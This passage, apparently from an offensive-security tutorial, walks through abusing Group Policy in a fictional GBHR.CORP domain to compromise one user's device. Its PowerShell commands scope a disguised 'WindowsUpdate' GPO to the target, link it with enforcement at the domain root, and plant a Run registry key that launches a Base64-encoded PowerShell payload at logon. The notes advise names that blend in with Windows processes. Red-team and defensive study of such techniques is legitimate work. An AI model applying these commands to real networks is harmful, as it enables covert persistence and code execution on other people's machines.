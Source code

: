 - ```-Replace```: Ensures that the existing permissions are replaced with the new ones.

- ```-PermissionLevel GpoApply```: Grants the GpoApply permission, allowing the specified target to apply the GPO.

- ```-TargetName "ejansen" and -TargetType user```: Targets Elise's user account.

- ```-TargetName "SPHR0098"``` and ```-TargetType computer```: Targets Elise's specific computer.

- ```-PermissionLevel None```: Removes the default permission for Authenticated Users, preventing other users from being affected by this GPO

To activate the GPO, we link it to the GBHR domain:

```
    New-GPLink -Name WindowsUpdate -Domain GBHR.CORP -Target "dc=gbhr,dc=corp" -order 1 -enforced yes
```

Notes:

- ```New-GPLink -Name WindowsUpdate```: Links the WindowsUpdate GPO to the specified domain.

- ```-Domain GBHR.CORP```: Specifies the domain to which the GPO is linked.

- ```-Target "dc=gbhr,dc=corp"```: Defines the target location within the Active Directory domain (in this case, the root of the gbhr.corp domain).

- ```-order 1```: Sets the GPO link order, determining the precedence of the GPO if multiple GPOs apply to the same target.

- ```-enforced yes```: Enforces the GPO, meaning its settings cannot be overridden by other GPOs with lower precedence.

Finally, we instruct the GPO to set up a Run registry key on Elise's tablet. This key will automatically execute our PowerShell payload the next time the device polls for new GPO settings:

```
    Set-GPRegistryValue -Name "WindowsUpdate" -key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -value "powershell.exe -NoP -sta -NonI -Enc aQBtAHAAbwByA [...]"
    write-output "Created GPO successfully!"
    #End of create-gpo function
}
```

Notes:

- ```Set-GPRegistryValue -Name "WindowsUpdate"```: Adds or modifies a registry key within the WindowsUpdate GPO.

- ```-key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run"```: Specifies the registry path where the new key will be created. The Run key is used to execute commands at user logon.

- ```-ValueName MSstart```: Names the registry entry. This name can be anything, but it’s usually something that blends in with typical Windows processes.

- ```-Type String -value "powershell.exe -NoP -sta -NonI -Enc aQBtAHAAbwByA [...]"```: Specifies the command to be executed, in this case, our Base64-encoded PowerShell payload.

Full code summary:
